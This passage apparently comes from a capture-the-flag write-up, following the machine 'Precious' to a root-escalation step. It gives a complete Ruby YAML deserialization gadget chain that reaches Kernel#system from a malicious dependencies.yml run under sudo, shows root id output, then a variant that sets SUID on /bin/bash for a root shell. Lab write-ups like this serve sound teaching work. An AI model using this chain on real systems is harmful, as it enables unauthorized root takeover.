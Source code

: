Source :https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/

We have to write exploit to our malicious `dependencies.yml` file
````text
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: id
         method_id: :resolve
````
By running our malicious file with our `id` param we get our desired output 
````text
henry@precious:~$ sudo /usr/bin/ruby /opt/update_dependencies.rb
sh: 1: reading: not found
uid=0(root) gid=0(root) groups=0(root)

````
Now Let's change the command to set the permission of `/bin/bash` binary to SUID bit set.
<br>
````text
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "chmod +s /bin/bash"
         method_id: :resolve
````
It worked, Now the `/bin/bash` binary has now the SUID permission .
<br><br>
![Screenshot from 2022-11-29 09-30-04](https://user-images.githubusercontent.com/114393219/204435789-eda96dcf-8388-4daa-9d5c-947669ab3f60.png)

Now `/bin/bash -p` and enjoyyy !! . Now you have root access <br><br>
![image](https://user-images.githubusercontent.com/114393219/204436213-f1f1e823-1144-4442-a19c-73f4443dbbb4.png)


